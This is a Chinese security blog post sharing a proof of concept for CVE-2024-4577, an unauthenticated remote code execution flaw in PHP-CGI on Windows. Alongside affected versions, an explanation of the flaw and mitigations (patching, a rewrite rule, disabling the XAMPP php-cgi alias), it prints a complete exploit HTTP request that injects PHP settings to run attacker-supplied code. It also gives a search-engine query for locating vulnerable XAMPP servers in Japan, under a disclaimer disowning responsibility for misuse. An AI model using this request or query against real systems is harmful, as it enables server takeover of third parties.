 #  PHP CGI Windows平台远程代码执行漏洞(CVE-2024-4577)   
小白菜安全  小白菜安全   2024-06-08 12:05  
  
**免责声明**  
  
该公众号主要是分享互联网上公开的一些漏洞poc和工具，  
利用本公众号所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，本公众号及作者不为此承担任何责任，一旦造成后果请自行承担！如果本公众号分享导致的侵权行为请告知，我们会立即删除并道歉。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/NhLcT1kxlia1Au88bO1jFd8V3AmqMvsqEZUFalBicQwJaic1tesic3duRuGPPQ3E1vczEJ67UzoMicSWMZpKwRElxtA/640?wx_fmt=png "")  
  
**漏洞影响范围**  
  
   
```
1.PHP版本：（不仅限如下版本）
PHP 8.3 < 8.3.8
PHP 8.2 < 8.2.20
PHP 8.1 < 8.1.29
PHP 8.0
PHP 7.x
PHP 5.x
2.系统环境：
必须市windows并使用以下其中之一的语言系统
繁体中文、简体中文、日文 
3.其他条件
以CGI模式运行的PHP环境（现实环境很少存在）
```  
  
# 漏洞原理  
```
PHP-CGI 是一种用于在 Web 服务器上运行 PHP 脚本的接口，通过 CGI（公共
网关接口）将 PHP 解释器与 Web 服务器连接。允许Web服务器与外部程序
（通常是编写在PHP语言中的脚本）进行交互。
PHP-CGI模式运行时在对字符转换存在问题，当PHP运行在Window平台且使用了
如下语系（简体中文936/繁体中文950/日文932等）时，攻击者可构造恶意请
求绕过CVE-2012-1823保护，从而可在无需登陆的情况下执行任意PHP代码，导
致服务器失陷。
```  
#    
# 漏洞复现  
  
**poc**  
```
本次复现通过XAMPP平台，poc如下（phpinfo.php为任意存在的文件）
POST /dashboard/phpinfo.php?%ADd+allow_url_include%3D1+%ADd+auto_prepend_file%3Dphp://input HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2226.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 21

<?php
echo 111111;
?>
```  
  
出现如下数据表示漏洞存在  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/NhLcT1kxlia1wnSFoqSjQyPq7103wAibbtxicDoAibcvTKV0wGGkCfsyrcCCYlLWIJ4HREqbzyg6KLibxRef8xdiaFJQ/640?wx_fmt=png&from=appmsg "")  
# 搜索语法  
  
**app="XAMPP" && country="JP"**  
# 修复建议（启明星辰）  
  
****  
**1、官方修复方案**  
  
目前官方已有可更新版本，建议受影响用户升级至最新  
版本。PHP官方最新版本8.3.8、8.2.20和8.1.29。  
  
下载链接：  
https://www.php.net/downloads.php  
  
****  
**2、缓解方案**  
- 不方便更新版本的Windows用户，建议暂时关闭php-cgi的使用。  
  
- 以下重写规则可用于阻止攻击。需要注意的是，这些规则仅对繁体中文、简体中文和日语语言环境起到临时缓解作用。在实际操作中，仍然建议更新到补丁版本或迁移架构。  
  
RewriteEngine On  
  
RewriteCond %{QUERY_STRING} ^%ad [NC]  
  
RewriteRule .? - [F,L]  
  
- 对于使用  
 XAMPP for Windows   
的用户：如果确认不需要   
PHP CGI 功能，可以通过修改以下  
Apache HTTP Server 配置来避免受到该漏洞的影响。  
  
C:/xampp/apache/conf/extra/httpd-xampp.conf  
  
找到相应的行：  
  
ScriptAlias /php-cgi/ "C:/xampp/php/"  
  
并将其注释掉：  
  
# ScriptAlias /php-cgi/ "C:/xampp/php/"  
  
